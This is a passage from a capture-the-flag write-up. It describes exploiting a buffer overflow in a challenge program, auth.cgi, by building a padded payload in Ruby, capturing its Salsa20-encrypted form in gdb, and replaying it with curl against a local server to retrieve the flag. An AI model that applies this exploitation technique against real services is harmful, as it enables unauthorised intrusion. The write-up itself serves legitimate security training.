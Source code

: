 I changed the exploit to write the payload to a file and print the length:

```ruby
EXPLOIT = ("A" * PADDING) + stack
File.write("/tmp/unencrypted.bin", EXPLOIT)
puts EXPLOIT.length
exit
```

It prints 680, which lets us use our debugger again:

```
$ CONTENT_LENGTH=680 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(No debugging symbols found in ./auth.cgi)
```

I put a breakpoint at the `strcmp()` function, which is after the encrypt happens:

```
(gdb) b *0x401F04 
Breakpoint 1 at 0x401f04
```

Run with the unencrypted payload (identical to part 2, except offsets are changed):

```
(gdb) run < /tmp/unencrypted.bin
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in-securer/challenge/src/auth.cgi < /tmp/unencrypted.bin
Content-Type: text/plain
```

Write the encrypted payload to memory:
```
(gdb) dump memory /tmp/encrypted.bin $rdi $rdi+680
```

Then we can start the server and play it back:

```
$ curl -i --data-binary @/tmp/encrypted.bin 'http://localhost:8888/cgi-bin/auth.cgi' --output -
HTTP/1.1 200 OK
Date: Fri, 12 Apr 2024 22:02:05 GMT
Server: Apache/2.4.58 (Unix)
Transfer-Encoding: chunked
Content-Type: text/plain

CTF{cranky-gamified-indoctrination}
```

The cool part is, I never had to understand what was happening with the encryption code! Nothing better than lazy reversing :)

My exploit assumes that you know it's Salsa20, though. Other than the encryption, it's identical to the previous exploit:

```ruby
[ ... ]

EXPLOIT = Salsa20.new(key, iv).encrypt(("A" * PADDING) + stack)

[ ... ]
```

And that's that!
